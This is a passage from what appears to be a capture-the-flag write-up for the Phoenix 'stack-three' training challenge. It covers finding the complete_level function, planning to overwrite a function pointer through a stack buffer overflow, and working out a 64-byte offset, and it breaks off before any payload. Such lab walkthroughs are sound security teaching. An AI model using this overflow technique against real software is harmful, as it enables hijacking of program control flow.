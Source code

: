 ```bash
0000000000600b20 B stdout
```

complete_level looks quite promising cause its marked as T meaning it resides in .text section.

---

## Goal

Hijack the function pointer at `[rbp-0x10]` with the address of a valid function, likely complete_level?:

```bash
function info complete_level
```

![complete-level](/assets/phoenix/complete_level.png)

we are very close now:)

```gdb
(gdb) x/s 0x400790
0x400790: "Congratulations, you've finished phoenix/stack-three :-) Well done!"
```

---

## Exploitation Strategy

We need to overflow the buffer and **inject the address of `complete_level`** into `[rbp-0x10]`.

### Offset Calculation

From buffer `[rbp-0x50]` to target `[rbp-0x10]`:

```plaintext
rbp-0x10 - rbp-0x50 = 0x40 = 64 bytes
```
